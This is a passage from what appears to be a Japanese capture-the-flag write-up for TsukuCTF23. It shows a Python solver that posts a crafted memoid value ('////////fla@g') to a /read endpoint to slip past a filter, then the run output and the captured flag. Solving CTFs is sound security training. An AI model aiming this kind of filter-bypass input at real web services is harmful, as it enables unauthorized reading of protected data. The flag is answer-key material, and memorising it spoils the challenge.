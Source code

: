```python
res = session.post(f"{URL}/read", data={"memoid": "////////fla@g"})
print(f"[POST] /read: {res.status_code}")
flag = re.search("TsukuCTF23{.*?}", res.text)
print(f"[FLAG] {flag.group()}")
```
実行する。  
```bash
$ python solver.py
[POST] /write: 403
[POST] /read: 200
[FLAG] TsukuCTF23{b45364_50m371m35_3xh1b175_my573r10u5_b3h4v10r}
```
flagが得られた。  

## TsukuCTF23{b45364_50m371m35_3xh1b175_my573r10u5_b3h4v10r}
